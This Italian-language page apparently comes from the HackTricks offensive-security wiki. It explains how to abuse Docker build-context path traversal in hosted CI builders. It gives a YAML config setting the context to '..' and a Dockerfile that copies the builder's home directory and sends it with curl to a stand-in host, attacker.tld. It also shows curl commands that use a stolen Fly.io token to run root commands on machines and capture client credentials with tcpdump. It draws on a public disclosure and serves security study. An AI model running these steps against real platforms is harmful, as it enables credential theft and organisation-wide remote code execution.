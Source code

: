 # Abuso del Docker Build Context nei Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Se una piattaforma CI/CD o un hosted builder permette ai contributor di specificare il percorso del Docker build context e il percorso del Dockerfile, spesso puoi impostare il context su una directory padre (es., "..") e includere file dell'host nel build context. A quel punto, un Dockerfile controllato dall'attaccante può usare COPY ed exfiltrate secrets trovati nella home dell'utente del builder (per esempio, ~/.docker/config.json). I registry tokens rubati possono anche funzionare contro le control-plane APIs del provider, consentendo RCE a livello di organizzazione.

## Superficie d'attacco

Molti servizi hosted builder/registry eseguono più o meno questo quando costruiscono immagini fornite dagli utenti:
- Leggere una config a livello di repo che include:
  - build context path (inviato al Docker daemon)
  - Dockerfile path relativo a quel context
- Copiare la directory del build context indicata e il Dockerfile al Docker daemon
- Buildare l'immagine ed eseguirla come servizio ospitato

Se la piattaforma non canonicalizza e limita il build context, un utente può impostarlo su una posizione esterna al repository (path traversal), causando che file arbitrari dell'host leggibili dall'utente di build diventino parte del build context e siano disponibili per COPY nel Dockerfile.

Vincoli pratici comunemente osservati:
- Il Dockerfile deve risiedere all'interno del path di context scelto e il suo percorso deve essere noto in anticipo.
- L'utente di build deve avere permessi di lettura sui file inclusi nel context; file di device speciali possono interrompere la copia.

## PoC: Path traversal via Docker build context
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Note:
- L'uso di ".." spesso risolve nella home dell'utente builder (es., /home/builder), che tipicamente contiene file sensibili.
- Posiziona il tuo Dockerfile nella directory con il nome del repo (es., repo "test" → test/Dockerfile) in modo che rimanga all'interno del contesto genitore espanso.

## PoC: Dockerfile per ingerire ed esfiltrare il contesto del host
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Obiettivi comunemente recuperati da $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Altre cache e config cloud/CLI (es., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Suggerimento: Anche con un .dockerignore nel repository, la selezione del contesto lato piattaforma vulnerabile continua a governare ciò che viene inviato al daemon. Se la piattaforma copia il percorso scelto al daemon prima di valutare il .dockerignore del tuo repo, file dell'host potrebbero comunque essere esposti.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Alcune piattaforme emettono un singolo bearer token utilizzabile sia per il container registry sia per il control-plane API. Se riesci a exfiltrate un registry token, provane l'uso contro l'API del provider.

Esempi di chiamate API contro Fly.io Machines API usando lo stolen token da ~/.docker/config.json:

Enumerate apps in an org:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Eseguire un comando come root su qualsiasi macchina di un'app:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Risultato: remote code execution a livello di organizzazione su tutte le app ospitate dove il token possiede privilegi sufficienti.

## Furto di segreti da servizi ospitati compromessi

Con exec/RCE su server ospitati, puoi raccogliere segreti forniti dal client (API keys, tokens) o eseguire attacchi di prompt-injection. Esempio: installare tcpdump e catturare il traffico HTTP sulla porta 8080 per estrarre le credenziali in ingresso.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Le richieste catturate spesso contengono credenziali client nelle intestazioni, nei corpi o nei parametri di query.

## Riferimenti

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
